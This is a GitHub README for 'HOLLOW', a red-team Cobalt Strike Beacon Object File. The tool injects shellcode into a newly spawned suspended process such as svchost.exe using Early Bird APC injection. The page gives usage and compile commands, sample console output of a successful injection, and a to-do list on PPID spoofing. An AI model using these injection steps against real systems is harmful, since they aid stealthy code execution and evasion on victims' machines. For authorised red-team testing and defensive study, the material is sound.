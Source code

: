 ## HOLLOW - Cobalt Strike BOF
##### Authors:
+ Bobby Cooke ([@0xBoku](https://twitter.com/0xBoku))
+ Justin Hamilton ([@JTHam0](https://twitter.com/JTHam0))
+ Octavio Paguaga ([@OakTree__](https://twitter.com/OakTree__))
+ Matt Kingstone ([@n00bRage](https://twitter.com/n00bRage))

Beacon Object File (BOF) that spawns an arbitrary process from beacons memory in a suspended state, inject shellcode, hijack main thread with APC, and execute shellcode; using the Early Bird injection method taught by @SEKTOR7net in RED TEAM Operator: Malware Development Intermediate.
- [Sektor7 RED TEAM Operator: Malware Development Intermediate Course](https://institute.sektor7.net/courses/rto-maldev-intermediate/463257-code-injection/1435343-earlybird)

![](/images/poc.png)

### Run from Cobalt Strike Beacon Console
+ After compile import the hollow.cna script into Cobalt Strikes Script Manager
```bash
beacon> help hollow
Synopsis: hollow /path/to/hollow/pe /local/path/to/shellcode.bin
beacon> hollow svchost.exe /Users/bobby.cooke/popCalc.bin
[*] HOLLOW - EarlyBird Remote Process Shellcode Injector (@0xBoku|github.com/boku7) | (@JTHam0|github.com/Rodion0)
[*]             (@n00bRage|github.com/josephkingstone) | (@OakTree__|github.com/git-oaktree)
[*] Reading shellcode from: /Users/bobby.cooke/popCalc.bin
[+] Success - Spawned process for svchost.exe at 5464 (PID)
[+] Success - Allocated RE memory in remote process 5464 (PID) at: 0x000001A83BEC0000
[+] Success - Wrote 280 bytes to memory in remote process 5464 (PID) at 0x000001A83BEC0000
[+] Success - APC queued for main thread of 5464 (PID) to shellcode address 0x000001A83BEC0000
[+] Success - Your thread was resumed and your shellcode is being executed within the remote process!
```

### Compile with x64 MinGW (only tested from macOS):
```bash
x86_64-w64-mingw32-gcc -c hollow.x64.c -o hollow.o
```

### To Do List
+ Refactor code to make it more modular/clean
+ Implement this into github.com/boku7/SPAWN
  - Combine this with the PPID spoofing and blockdll features of SPAWN

### Credits / References
+ Credit/shoutout to: @SEKTOR7net + Raphael Mudge
##### Sektor7 Malware Dev Essentials course - learned how to do the early bird injection technique
+ https://institute.sektor7.net/red-team-operator-malware-development-essentials
##### Raphael Mudge - Beacon Object Files - Luser Demo
+ https://www.youtube.com/watch?v=gfYswA_Ronw
##### Cobalt Strike - Beacon Object Files
+ https://www.cobaltstrike.com/help-beacon-object-files
##### BOF Code References
+ https://github.com/odzhan/injection/blob/master/syscalls/inject_dll.c
+ https://github.com/ajpc500/BOFs/blob/main/SyscallsInject/entry.c
+ https://github.com/ajpc500/BOFs/blob/main/SyscallsInject/syscalls_inject.cna

